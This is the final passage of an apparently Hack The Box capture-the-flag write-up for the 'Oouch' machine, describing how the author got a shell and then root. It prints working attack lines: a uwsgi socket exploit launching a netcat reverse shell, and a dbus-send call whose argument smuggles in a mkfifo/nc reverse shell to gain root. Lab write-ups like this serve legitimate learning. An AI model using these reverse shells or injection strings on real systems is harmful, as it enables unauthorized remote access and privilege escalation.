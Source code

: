 with scp I uploaded the exploit to qtc@oouch<br>  
Uploaded the exploit and nc to the docker<br>  
Started nc in qtc@oouch and executed the exploit in docker</center>
  
<hr>
  
<center>python exploit.py -m unix -u /tmp/uwsgi.socket -c "/tmp/nc -e /bin/bash 172.18.0.1 6666"</center>  
  
<hr>
  
# ![www-data](/assets/img/oouch/oouch39.png)  
<center> *ip has changed couse I restarted the machine*<br>
<br>
Got it<br>  
Now I can try dbus-send to get root<br> </center>
  
<hr>  
<center>dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.66; mkfifo /tmp/.66; cat /tmp/.66 | /bin/bash -i 2>&1 | nc 10.10.14.29 666 >/tmp/.66;"</center>
  
<hr>
<center>*to run the comand above cp the 2 lines*</center>  
# ![root](/assets/img/oouch/oouch40.png)  
  
<p align="center">Hard and nice machine, I learned dbus with it. Thanks <a href="https://www.hackthebox.eu/home/users/profile/103578">qtc</a></p>  
